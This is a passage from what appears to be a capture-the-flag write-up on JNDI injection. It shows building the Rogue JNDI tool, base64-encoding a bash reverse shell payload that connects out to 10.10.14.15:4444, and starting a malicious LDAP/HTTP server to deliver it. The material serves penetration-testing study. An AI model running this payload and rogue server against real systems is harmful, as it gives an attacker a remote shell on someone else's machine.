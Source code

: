 Lastly, we need to get [Rogue JNDI](https://github.com/veracode-research/rogue-jndi) and use [[Maven]] to build it.

```console 
┌──(kali㉿kali)-[~/Downloads]
└─$ git clone https://github.com/veracode-research/rogue-jndi
Cloning into 'rogue-jndi'...
remote: Enumerating objects: 80, done.
remote: Counting objects: 100% (80/80), done.
remote: Compressing objects: 100% (55/55), done.
remote: Total 80 (delta 30), reused 53 (delta 16), pack-reused 0
Receiving objects: 100% (80/80), 24.50 KiB | 3.06 MiB/s, done.
Resolving deltas: 100% (30/30), done.
                       
┌──(kali㉿kali)-[~/Downloads]
└─$ cd rogue-jndi 
                         
┌──(kali㉿kali)-[~/Downloads/rogue-jndi]
└─$ ls
LICENSE  pom.xml  README.md  src
       
┌──(kali㉿kali)-[~/Downloads/rogue-jndi]
└─$ mvn package
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[INFO] Scanning for projects...
[INFO] 
[INFO] ------------------------< RogueJndi:RogueJndi >-------------------------
[INFO] Building RogueJndi 1.1
[INFO] --------------------------------[ jar ]---------------------------------
[INFO]

(...)

[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  5.648 s
[INFO] Finished at: 2022-04-15T05:54:49-04:00
[INFO] ------------------------------------------------------------------------
```

In order for Rogue-JNDI to run, we need to construct and give it a payload. We will encode it in bas64 to avoid any encoding issues.

```console
┌──(kali㉿kali)-[~/Downloads/rogue-jndi]
└─$ echo 'bash -c bash -i >&/dev/tcp/10.10.14.15/4444 0>&1' | base64 
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUvNDQ0NCAwPiYxCg==
```

And start Rogue-JNDI:

```console
┌──(kali㉿kali)-[~/Downloads/rogue-jndi]
└─$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.15"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.15:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.15:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.15:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.15:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.15:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.15:1389/o=groovy to artsploit.controllers.Groovy
```